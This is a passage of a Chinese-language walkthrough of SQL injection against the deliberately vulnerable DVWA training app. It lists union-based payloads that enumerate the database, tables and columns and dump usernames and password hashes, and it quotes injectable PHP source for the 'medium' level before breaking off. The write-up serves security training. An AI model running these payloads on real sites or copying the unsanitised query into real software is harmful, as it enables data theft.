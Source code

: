      ![1556888113334](C:\Users\chanshaw\AppData\Roaming\Typora\typora-user-images\1556888113334.png)

   - 输入1' or 1=1 order by 3 #

     ![1556888142162](C:\Users\chanshaw\AppData\Roaming\Typora\typora-user-images\1556888142162.png)

   只有两个字段，First name 和Surname

3. 确定字段顺序

   输入1' union select 1,2 #

   ![1556888273046](C:\Users\chanshaw\AppData\Roaming\Typora\typora-user-images\1556888273046.png)

   ```sql 
   select First Name,Surname form [table] where ID ='id'...
   ```

4. 获取当前数据库

   输入 1' union select 1,database()#

   ![1556888388237](C:\Users\chanshaw\AppData\Roaming\Typora\typora-user-images\1556888388237.png)

   数据库是DVWA

5. 获取数据库中的表

   输入:`1‘ union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #`

   ![1556888525764](C:\Users\chanshaw\AppData\Roaming\Typora\typora-user-images\1556888525764.png)

   有两张表guestbook和user

6. 获取表的字段名

   `1'union select 1,group_concat(column_name) from information_schema.columns where table_name=users #`

   ![1556888711233](C:\Users\chanshaw\AppData\Roaming\Typora\typora-user-images\1556888711233.png)

   8个字段，分别为:user_id,first_name,last_name,user,password,avatar,last_login,failed_login

7. 下载数据

   输入`1′ or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #`

   ![1556888878698](C:\Users\chanshaw\AppData\Roaming\Typora\typora-user-images\1556888878698.png)

#### 3.1.2 medium

```php
<?php 

if( isset( $_POST[ 'Submit' ] ) ) { 
    // Get input 
    $id = $_POST[ 'id' ]; 

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id); 

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;"; 
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' ); 

    // Get results 
    while( $row = mysqli_fetch_assoc( $result ) ) { 
        // Display values 
        $first = $row["first_name"]; 
```